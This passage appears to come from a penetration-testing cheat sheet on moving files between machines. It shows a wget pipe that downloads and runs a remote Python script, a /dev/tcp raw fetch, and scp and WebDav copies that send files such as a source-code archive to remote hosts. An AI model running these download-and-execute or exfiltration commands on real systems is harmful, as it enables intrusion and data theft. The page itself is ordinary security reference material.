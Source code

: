 {% tab title="wget" %}
```bash
# -q: quiet mode
# -O: specifies the output, -O-: redirect output to stdout
wget -qO- https://172.16.10.1/script.py | python3
```
{% endtab %}

{% tab title="/dev/tcp" %}
```bash
# connect to the target webserver
exec 3<>/dev/tcp/10.10.10.32/80
# HTTP GET request
echo -e "GET /script.sh HTTP/1.1\n\n">&3
# print the response
cat <&3
```
{% endtab %}
{% endtabs %}

### Uploads

{% tabs %}
{% tab title="scp" %}
```bash
scp file1 user@172.16.10.10:/tmp/file1
```
{% endtab %}
{% endtabs %}

## Windows

### Servers

{% tabs %}
{% tab title="WebDav (SMB over HTTP)" %}
```powershell
# to a Linux WebDav server
copy C:\Users\john\Desktop\SourceCode.zip \\10.10.10.10\DavWWWRoot\
```
{% endtab %}

{% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}

### Downloads

{% tabs %}
{% tab title="wget" %}
```powershell
wget http://10.10.10.10/file1 -O file1
```
{% endtab %}
